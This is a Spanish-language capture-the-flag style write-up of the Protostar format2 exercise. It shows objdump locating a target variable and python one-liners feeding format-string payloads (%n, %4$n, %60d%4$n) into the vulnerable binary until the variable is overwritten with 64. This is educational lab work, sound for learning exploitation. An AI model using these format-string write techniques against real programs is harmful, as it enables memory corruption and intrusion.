 Vamos a ver la dirección de la memoria que tenemos que sobreescribir
```console
[user@protostar]-[/opt/protostar/bin]:$ objdump -t ./format2 | grep "target"
080496e4 g     O .bss	00000004              target
```
O sea: *\xe4\x96\x04\x08*

```console
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print("\xe4\x96\x04\x08" + "B"+ "%8x."*3 + "%x")' | ./format2
B     200.b7fd8420.bffff524.80496e4
target is 0 :(
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print("\xe4\x96\x04\x08" + "B"+ "%8x."*3 + "%n")' | ./format2
B     200.b7fd8420.bffff524.
target is 32 :(
```
Hemos conseguido escribir en la variable. Pero ahora os introduciré dos comandos interesantes que nos abreviarán las cosas.
> **"%4$n"** es escribe en el cuarto argumento (la cuarta dirección), lo que equivale a nuestro *"%8x."*3 + "%n"* de antes

```console
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print("\xe4\x96\x04\x08" + "B" + "%4$n")' | ./format2
B
target is 5 :(
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print("\xe4\x96\x04\x08" + "%4$n")' | ./format2
�
target is 4 :(
```
Es decir, de por sí escribe 4 bytes (5 si le metemos la "B"). Pero el ejecicio dice que nos tiene que salir "target = 64" O sea escribir 64 bytes.
Si a 64 le restamos los 4 bytes, nos da 60, así que hay que meter 60 bytes.

```console
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print("\xe4\x96\x04\x08" + "B"*60 + "%4$n")' | ./format2
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
you have modified the target :)
```
Esto tambíen se puede poner de otra forma, que es así:
> **"%60d%4$n"**  escribe en el cuarto argumento 60 dígitos.

```console
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print("\xe4\x96\x04\x08" + "%60d%4$n")' | ./format2
                                                         512
you have modified the target :)
```
---------------------------------------------------------------------------
# Escribir un valor hexadecimal en una variable 
> [format3](https://exploit.education/protostar/format-three/)
